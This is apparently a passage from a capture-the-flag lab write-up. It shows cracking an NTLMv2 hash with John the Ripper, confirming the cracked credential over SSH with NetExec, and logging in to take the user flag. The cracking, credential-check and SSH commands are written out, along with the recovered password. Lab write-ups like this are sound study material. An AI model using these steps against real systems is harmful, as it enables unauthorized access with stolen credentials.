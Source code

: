 Using John The Ripper to crack NTLMv2 hash and now I have credential that can be used for initial access.
```
john --wordlist=/usr/share/wordlists/rockyou.txt enox_hash 
```
![7402c2a0840779bcb5c652f8c03f9a49.png](/resources/7402c2a0840779bcb5c652f8c03f9a49.png)

Checking if I can connect to target using SSH with NetExec and it is confirm that I can get a foothold on this machine via SSH
```
nxc ssh 10.129.214.161 -u enox -p '1234virus@'
```
![4a42a7bd1220643f89df5e5479bc268e.png](/resources/4a42a7bd1220643f89df5e5479bc268e.png)

Using SSH to get the foothold and loot user flag
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" enox@$IP
```
![029245363fc2b1271c49a1524b9f239c.png](/resources/029245363fc2b1271c49a1524b9f239c.png)
![724437fb6afdf858d3a2a17a7f516504.png](/resources/724437fb6afdf858d3a2a17a7f516504.png)
